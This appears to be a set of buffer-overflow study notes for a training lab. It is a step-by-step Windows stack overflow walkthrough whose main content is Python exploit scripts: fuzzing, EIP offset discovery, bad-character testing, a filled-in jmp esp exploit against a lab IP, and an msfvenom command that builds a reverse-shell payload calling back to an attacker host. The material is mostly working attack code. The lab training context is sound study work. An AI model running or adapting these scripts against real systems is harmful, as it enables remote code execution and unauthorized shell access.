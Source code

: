 # Buffer Overflow


## Buffer Overflow - Windows

1. Set working folder for mona.

**!mona config -set workingfolder c:\mona\%p**
  
2. Fuzz number of bytes until application crashed.

import socket, time, sys

ip = ""
port = 
timeout = 5

buffer = [] 
counter = 100
while len(buffer) < 30:
    buffer.append(b"A" * counter)
    counter += 100

for string in buffer:
   try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.settimeout(timeout)
      connect = s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with %s bytes" % len(string))
      s.send(b"OVERFLOW1 " + string + b"\r\n")
      s.recv(1024)
      s.close()

   except:
      print("Could not connect to " + ip + ":" + str(port))
      sys.exit(0)
   time.sleep(1) 

3. Control EIP, create a pattern and determine the offset. Add 400 bytes on the crashed bytes.

**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600**

import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset
retn = b""
padding = b""
payload = b""
postfix = b""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")

**/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q **


!mona findmsp -distance <numberofbytescreated>

4. Determine badchars. Create \x00 to \xff and look for missing character.
  **Note: Remember that badchars can affect the next byte as well!**

**!mona bytearray -b "\x00"**


import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset + b"B" * 4
badchars =(
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
retn = b""
padding = b""
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(badchars)))

buffer = prefix + overflow + badchars + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**!mona compare -f C:\mona\oscp\bytearray.bin -a**

5. Search for jmp esp avoiding the badchars.

**!mona jmp -r esp -cpb "\x00"**

6. Create your payload using msfvenom.

import socket
import struct

ip = "10.10.70.219"
port = 1337

prefix = b"OVERFLOW7 "
offset = 1306
#390-dummy 
overflow = b"A" * offset 
#0x625011af : jmp esp   
retn = struct.pack("I",0x625011af)
padding = b"\x90"*21
payload = b""
postfix = b"C" * (<numberofbytes>-(offset+4+len(payload+padding)))

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")


**msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py**  

   
